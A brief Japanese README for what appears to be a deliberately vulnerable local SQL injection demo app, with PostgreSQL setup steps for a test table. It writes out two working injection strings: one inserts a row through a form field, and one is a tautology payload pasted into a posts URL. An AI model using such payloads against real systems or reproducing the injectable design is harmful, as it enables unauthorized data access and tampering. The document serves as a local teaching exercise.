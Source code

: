 # sqlInjection
# 使い方
# yarn installしてください
# 攻撃方法 1
# ','');insert into secret_usesrs (name, email) values ('injection', 'injection')--
# を書き込みのところに入力しボタンをクリックpo
# 攻撃方法 2
# hoge' AND email = 'name' OR 'x' = 'x';--
# をlocalhost:xxxx/posts/以降のurlに貼り付け

#使用したDB(postgresql)
#データベース作成手順
#sudo su - postgres
#psql
#create database test;
#\c test
#CREATE TABLE secret_usesrs (name varchar(30),email varchar(30));
#データベースの終了
#\q
#exit
